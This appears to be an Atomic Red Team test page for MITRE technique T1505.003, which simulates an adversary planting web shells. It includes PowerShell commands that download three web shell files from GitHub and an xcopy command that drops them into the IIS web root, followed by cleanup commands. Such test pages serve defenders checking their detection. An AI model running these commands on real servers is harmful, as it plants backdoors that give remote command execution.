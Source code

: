 ```yaml
---
tags: [T1505_003, atomic_test]
filename: "[[T1505.003 - Server Software Component- Web Shell]]"
---
```

# T1505.003 - Server Software Component: Web Shell

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows


**auto_generated_guid:** 0a2ce662-1efa-496f-a472-2fe7b080db16





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1505.003&#92;src|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy /I /Y "#{web_shells}" #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path}\b.jsp /q >nul 2>&1
del #{web_shell_path}\tests.jsp /q >nul 2>&1
del #{web_shell_path}\cmd.aspx /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{web_shells}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "#{web_shells}" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/tests.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
